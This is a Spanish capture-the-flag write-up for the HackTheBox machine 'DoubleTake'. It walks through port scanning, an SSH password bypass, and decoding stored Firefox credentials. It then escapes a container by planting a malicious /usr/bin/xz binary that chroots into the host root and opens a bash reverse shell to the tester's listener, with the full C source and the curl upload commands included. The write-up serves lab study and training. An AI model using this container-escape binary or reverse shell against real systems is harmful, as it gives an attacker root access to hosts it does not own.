

# DoubleTake - HackTheBox

## Reconocimiento

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n 10.129.248.123 -oG allPorts

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 62
80/tcp open  http    syn-ack ttl 63
```

```bash
nmap -sCV -p22,80 10.129.248.123

```

Esta máquina está basada en CVE-2026-123158, una vulnerabilidad llamada **sshole** en OpenSSH pudiendo bypassear la contraseña en Alpine Linux con una cadena de 300 bytes.

```bash
ssh alpine@10.129.248.123
alpine@10.129.248.123's password
Permission denied, please try again.
alpine@10.129.248.123's password: 
Welcome to Alpine!
```

Lo tenemos que mandar 2 veces, esto funciona para usuarios con ``*`` en el /etc/shadow en la contraseña.

Nos metemos en .mozilla/firefox/zentara.default y descubrimos un logins.json

```bash
{"nextId":2,"logins":[{"id":1,"hostname":"http://172.17.0.1","httpRealm":"Zentara","formActionOrigin":null,"usernameField":"","passwordField":"","encryptedUsername":"Ym9i","encryptedPassword":"Q29ycmVjdEhvcnNlQmF0dGVyeVN0YXBsZQ==","guid":"{a1b2c3d4-e5f6-7890-abcd-ef1234567890}","encType":0,"timeCreated":1730000000000,"timeLastUsed":1730900000000,"timePasswordChanged":1730000000000,"timesUsed":14}],"potentiallyVulnerablePasswords":[],"dismissedBreachAlertsByLoginGUID":{},"version":3}
```

Vemos un usuario y contraseña cifrados:

```bash
echo "Ym9i" | base64 -d ; echo
bob

echo "Q29ycmVjdEhvcnNlQmF0dGVyeVN0YXBsZQ==" | base64 -d ; echo
CorrectHorseBatteryStaple
```

Ahora podemos iniciar sesión en la web y vemos una especie de ia con conversaciones en las que vemos la contraseña del hash para el JWT.



```bash
gobuster dir -u 10.129.248.123 -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -t 20 --exclude-length 10701

/docs                 (Status: 401) [Size: 0]
/files                (Status: 401) [Size: 0]
/status               (Status: 401) [Size: 0]
/usage                (Status: 401) [Size: 0]
/settings             (Status: 401) [Size: 0]
/agents               (Status: 401) [Size: 0]
/deploy               (Status: 401) [Size: 0]
```

La web tiene un apartado de despliegue (deploy) que permite subir archivos hacia un contenedor utilizando un puerto de la API de Docker **PUT /containers/{id}/archive**.

Cuando se sube un archivo comprimido el servicio de Docker necesita un programa descompresor para extraerlo, Docker comete el error de buscar e invocar la herramienta de descompresión /usr/bin/xz dentro del sistema de archivos del contenedor, en lugar de utilizar el ejecutable seguro de la máquina host.

Vamos a modificar el archivo /usr/bin/xz para que se ejecute un comando arbitrario.

Crearemos un binario malicioso:

```c++
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
# include <sys/mount.h>
int main(int argc, char *argv[]) {
    mount("proc", "/proc", "proc", 0, NULL); // Montamos proc para poder hacer chroot
    chroot("/proc/1/root"); // Hacemos chroot al root del host, por lo que podemos ejecutar comandos como root
    chdir("/"); // Cambiamos al directorio raíz del host
    execl("/bin/bash", "bash", "-c", "bash -i >& /dev/tcp/<mi_ip>/443 0>&1", NULL); // Ejecutamos un reverse shell hacia nuestra máquina
    return 1;
}
``` 

Compilamos:

```bash
gcc -static -o xz xz.c
```

Ahora creamos un archivo comprimido con el binario malicioso:

```bash
mkdir -p pkg/usr/bin
cp xz pkg/usr/bin/
cd pkg && tar cf ../prueba.tar usr/bin/xz
```

Vemos en la propia documentación de la web que debemos subir el archivo via api.

Por lo que podemos subir nuestro archivo comprimido con el binario malicioso y ejecutar un reverse shell.

```bash
curl -u bob:CorrectHorseBatteryStaple \
  -F 'archive=@prueba.tar' \
  -F 'workspace=/' http://10.129.248.123/deploy

{"deployment":{"created_at":1795572717,"filename":"prueba.tar","id":"dep-bd4721","size":768000,"status":"success","workspace":"/"},"status":"success"}
```

Ahora creamos un disparador:

```bash
echo a > b
tar -cf b.tar b
xz -c b.tar > trigger.tar.xz
rm b b.tar
```

Nos ponemos en escucha en el puerto 443 y ejecutamos el trigger:

```bash
nc -lvnp 443
```

```bash
curl -u bob:CorrectHorseBatteryStaple \
  -F 'archive=@trigger.tar.xz' \
  -F 'workspace=/' http://10.129.248.123/deploy
```

Entablamos una reverse shell como root y podemos leer la flag de root.